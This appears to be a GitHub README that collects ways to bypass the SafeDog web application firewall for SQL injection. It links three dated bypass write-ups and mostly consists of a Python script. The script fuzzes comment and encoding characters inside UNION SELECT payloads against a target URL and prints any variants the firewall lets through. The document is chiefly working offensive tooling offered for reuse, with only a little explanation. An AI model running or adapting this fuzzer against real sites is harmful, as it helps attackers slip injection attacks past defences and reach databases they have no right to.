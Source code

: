 # Bypass_Thinking(Bypass思路)
+ Record bypass and ideas/记录与绕过实例
  
# description(说明):

</br> This is about safe dog bypass:wink::cry::laughing: :yum:

2017/9/03 => [Bypass SafeDog sql Attack(1)](http://www.inksec.cn/)
</br>

2017/9/05 => [Bypass SafeDog sql Attack(2)](http://www.inksec.cn/)
</br>

2017/9/06 => [Bypass SafeDog sql Attack(3)](http://www.inksec.cn/)  

## Fuzz_waf Thinking(客观来一杯fuzz)
```
# -*- coding: utf-8 -*-
import requests
fuzz_zs = ['/*','*/','/*!','*','=','`','!','@','%','.','-','+','|', '%00']
fuzz_sz = ['',' ']
fuzz_ch = ["%0a","%0b","%0c","%0d","%0e","%0f","%0g","%0h","%0i","% 0j"]
fuzz = fuzz_zs+fuzz_sz+fuzz_ch
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.221 Safari/537.3 6 SE 2.X MetaSr 1.0"}
url_start = "http://192.168.1.107/sql.php?id=1"
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                exp = "e1/*!50000/*!union"+a+b+c+d+"*/(select%201,2,3)/*--*/*/--%20-"
                url = url_start + exp
                res = requests.get(url = url , headers = headers)
                #print(res.text.find("true"))
                if res.text.find("true")==-1:
                    print("Find Fuzz bypass:"+url)
                    pass

```
